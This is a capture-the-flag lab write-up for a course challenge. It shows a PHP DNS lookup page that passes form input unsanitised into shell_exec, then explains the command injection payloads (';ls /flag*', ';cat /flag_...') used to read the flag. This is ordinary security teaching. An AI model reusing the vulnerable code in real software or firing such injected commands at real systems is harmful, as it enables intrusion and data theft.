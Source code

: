 ```yaml
---
title: Simple Web 0x09(Lab - DNS Lookup Tool)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/Command Injection"
---
```


# Simple Web 0x09(Lab - DNS Lookup Tool)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8300/

## Source code
:::spoiler code
```php=
 <?php
isset($_GET['source']) and die(show_source(__FILE__, true));
?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DNS Lookup Tool | Baby</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.3/css/bulma.min.css">
</head>

<body>
    <section class="section">
        <div class="container">
            <div class="column is-6 is-offset-3 has-text-centered">
                <div class="box">
                    <h1 class="title">DNS Lookup Tool 🔍</h1>
                    <form method="POST">
                        <div class="field">
                            <div class="control">
                                <input class="input" type="text" name="name" placeholder="example.com" id="hostname" value="<?= $_POST['name'] ?? '' ?>">
                            </div>
                        </div>
                        <button class="button is-block is-info is-fullwidth">
                            Lookup!
                        </button>
                    </form>
                    <br>
                    <?php if (isset($_POST['name'])) : ?>
                        <section class="has-text-left">
                            <p>Lookup result:</p>
                            <pre><?= shell_exec("host '" . $_POST['name'] . "';") ?></pre>
                        </section>
                    <?php endif; ?>
                    <hr>
                    <a id="magic">Magic</a> | <a href="/?source">Source Code</a>
                </div>
                <article class="message is-link is-hidden is-size-4" id="hint">
                    <div class="message-body is-family-monospace">
                        host '<span class="has-text-danger" id="command"></span>';
                    </div>
                </article>
            </div>
        </div>
    </section>

    <script>
        magic.onclick = () => hint.classList.toggle("is-hidden");
        window.onload = hostname.oninput = () => command.textContent = hostname.value;
    </script>
</body>

</html> 
```
:::

## Exploit
1. According to the source code, seems there's no any protection.
2. `shell_exec`
It used `shell_exec` to parse input string.
`shell_exec("host '" . $_POST['name'] . "';")`
`shell_exec("host '" . ';ls /flag*' . "';")`→`host '';ls /flag*'';`
![](https://i.imgur.com/6rCN8gy.png)
↓
`shell_exec("host '" . ';cat /flag_44ebd3936a907d59'. "';")`
* Note that, you can use `psysh` or `php -a` in Linux with interactive mode to try the payload
3. Then we got flag!!!


## Reference
[PHP system()、exec()、shell_exec() 的 差異](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)